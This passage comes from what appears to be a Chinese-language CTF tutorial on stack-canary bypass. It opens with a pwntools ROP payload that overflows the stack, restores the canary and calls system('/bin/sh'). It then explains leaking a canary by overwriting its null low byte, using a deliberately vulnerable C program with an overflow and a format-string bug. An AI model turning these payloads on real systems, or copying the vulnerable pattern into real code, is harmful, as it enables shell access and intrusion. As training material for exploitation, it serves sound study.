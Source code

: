    ```python
   #第二次利用栈溢出
   payload = b'a'*(0x18)+p64(canary)+b'a'*8+p64(ret)+p64(pop_rdi_ret)+p64(str_bin)+p64(sys_addr)+p64(main_addr)
   p.sendline(payload)
   #p.sendline(b'cat flag')
   # 与远程交互
   p.interactive()
   
   
   ```

   

### 2. 覆盖截断字符获取canary

1. Canry的最底一个字节设计为b'\x00'，是为了防止put，write，printf登将canary读出。如果利用栈溢出将最低位的b'\x00'覆盖，就可以利用答应函数将canary一致输出，最后再在最低位拼接上 `b'\x00'`就可以得到canary。

2. 实例：

   ```c++
   // test.c
   #include <stdio.h>
   #include <unistd.h>
   #include <stdlib.h>
   #include <string.h>
   void getshell(void) {
       system("/bin/sh");
   }
   void init() {
       setbuf(stdin, NULL);
       setbuf(stdout, NULL);
       setbuf(stderr, NULL);
   }
   void vuln() {
       char buf[100];
       for(int i=0;i<2;i++){
           read(0, buf, 0x200);
           printf(buf);
       }
   }
   int main(void) {
       init();
       puts("Hello Hacker!");
       vuln();
       return 0;
   }
   
   ```

3. 覆盖canary的最后一个字节，并从新组成canary：

   1. 首先确定要覆盖的位置，由于是 `小端序` 所以最后一个字节在高位，找到canary的偏移 `var_c` 后于 `buf` 相减再加一就可以指向canary的最低字节处，将其覆盖位a（注意使用send发送，不要最后的 `回车符` ）接受返会后要 `拼接canary`。
